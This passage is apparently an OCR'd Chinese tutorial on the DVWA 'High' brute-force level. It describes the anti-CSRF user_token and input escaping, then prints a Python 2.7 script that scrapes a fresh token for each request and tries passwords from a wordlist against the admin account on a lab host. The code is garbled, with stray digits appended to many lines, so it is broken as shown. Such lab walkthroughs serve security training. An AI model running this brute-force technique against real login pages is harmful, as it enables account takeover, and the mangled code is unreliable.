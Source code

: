 


High级别的代码加入了Token，可以抵御[CSRF](https://so.csdn.net/so/search?q=CSRF&spm=1001.2101.3001.7020)攻击，同时也增加了爆破的难度，通过抓包，可以看到，登录验证时提交了四个参数：username、password、Login以及user\_token。



![验证登录](http://image.3001.net/images/20161009/14760005155007.png!small)



每次服务器返回的登陆页面中都会包含一个随机的user\_token的值，用户每次登录时都要将user\_token一起提交。服务器收到请求后，会优先做token的检查，再进行sql查询。



![SQL查询](http://image.3001.net/images/20161009/1476000526224.png!small)



同时，High级别的代码中，使用了stripslashes（去除字符串中的反斜线字符,如果有两个连续的反斜线,则只去掉一个）、 mysql\_real\_escape\_string对参数username、password进行过滤、转义，进一步抵御sql注入。



**漏洞利用**



由于加入了Anti-CSRFtoken预防无脑爆破，这里就不推荐用Burpsuite了，还是简单用python写个脚本吧。



下面是我自己写的一个脚本（python 2.7），用户名为admin，对password参数进行爆破并打印结果，仅供各位参考。



```
from bs4 import BeautifulSoup      
import urllib2      
header={        'Host': '192.168.153.130',      
		'Cache-Control': 'max-age=0',      
		'If-None-Match': "307-52156c6a290c0",      
		'If-Modified-Since': 'Mon, 05 Oct 2015 07:51:07 GMT',      
		'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.116 Safari/537.36',      
		'Accept': '*/*',      
		'Referer': 'http://192.168.153.130/dvwa/vulnerabilities/brute/index.php',      1
		'Accept-Encoding': 'gzip, deflate, sdch',      1
		'Accept-Language': 'zh-CN,zh;q=0.8',      1
		'Cookie': 'security=high; PHPSESSID=5re92j36t4f2k1gvnqdf958bi2'}      1
requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"       1
def get_token(requrl,header):      1
	req = urllib2.Request(url=requrl,headers=header)      1
	response = urllib2.urlopen(req)      1
	print response.getcode(),      1
	the_page = response.read()      2
	print len(the_page)      2
	soup = BeautifulSoup(the_page,"html.parser")      2
	user_token = soup.form.input.input.input.input["value"] #get the user_token      2
	return user_token       2
user_token = get_token(requrl,header)      2
i=0      2
for line in open("rkolin.txt"):      2
	requrl = "http://192.168.153.130/dvwa/vulnerabilities/brute/"+"?username=admin&password="+line.strip()+"&Login=Login&user_token="+user_token      2
	i = i+1      3
	print i,'admin',line.strip(),      3
	user_token = get_token(requrl,header)      3
	if (i == 10):      3
		break
```
